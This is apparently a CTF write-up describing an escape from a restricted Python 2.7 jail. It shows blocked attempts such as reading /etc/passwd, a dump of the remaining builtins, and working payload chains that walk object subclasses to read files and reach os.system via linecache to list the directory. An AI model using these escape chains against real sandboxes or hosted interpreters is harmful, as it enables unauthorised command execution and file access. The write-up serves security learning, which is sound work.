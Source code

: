 Seems to indicate that we're working in a Python2.X jail.

After some researching I came across [this post on a plaidCTF jail escape](http://wapiflapi.github.io/2013/04/22/plaidctf-pyjail-story-of-pythons-escape.html). Go read that writeup on the details of what to look for and what's being done. Seriously, it's really well written and all that I know would be mostly just a regurgitation of that, so... go look at that.

In short, we've been stripped of some functions and builtins:

{% highlight python %}
>>> __import__('os')
You have encountered an error.
>>> execfile('/usr/lib/python2.7/os.py')
You have encountered an error.
>>> system('cat /etc/passwd')
You have encountered an error.
>>> system('ls')
You have encountered an error.
{% endhighlight %}

However, `print(__builtins__.__dict__)` shows us:

{% highlight python %}
>>> print(__builtins__.__dict__)
{'bytearray': <type 'bytearray'>, 'help': Type help() for interactive help, or help(object) for help about object., 'dict': <type 'dict'>, 'bin': <built-in function bin>, 'False': False, 'dir': <built-in function dir>, 'bytes': <type 'str'>, 'abs': <built-in function abs>, 'True': True, 'None': None, 'basestring': <type 'basestring'>, 'Exception': <type 'exceptions.Exception'>, 'ArithmeticError': <type 'exceptions.ArithmeticError'>, 'complex': <type 'complex'>, 'AssertionError': <type 'exceptions.AssertionError'>, 'AttributeError': <type 'exceptions.AttributeError'>}
>>> print(dir(__builtins__))
['ArithmeticError', 'AssertionError', 'AttributeError', 'Exception', 'False', 'None', 'True', 'abs', 'basestring', 'bin', 'bytearray', 'bytes', 'complex', 'dict', 'dir', 'help']
{% endhighlight %}

If we get an instance of a `()` class, and exploit the fact that we can potentially get a useful subclass out of it, we are able to perform file reads like so (again, go read that writeup...):

{% highlight python %}
>>> print(().__class__.__bases__[0].__subclasses__()[40]('flag.txt', 'r').read())
The flag is in the source code.
{% endhighlight %}

Dicks. So, we need to find the source code. To do so, I resorted to finding a way to be able to do a `ls` in the current directory, taking advantage of the fact that `linecache` from `catch_warnings` imports `os`:

{% highlight python%}
>>> print(().__class__.__bases__[0].__subclasses__()[59].__repr__.im_func.func_globals["linecache"].__dict__['os'].__dict__['system']('ls'))

>>> print(().__class__.__bases__[0].__subclasses__()[59].__repr__.im_func.func_globals["linecache"].__dict__['os'].__dict__['system']('ls'))
flag.txt
jail.py
start.sh
0
{% endhighlight %}
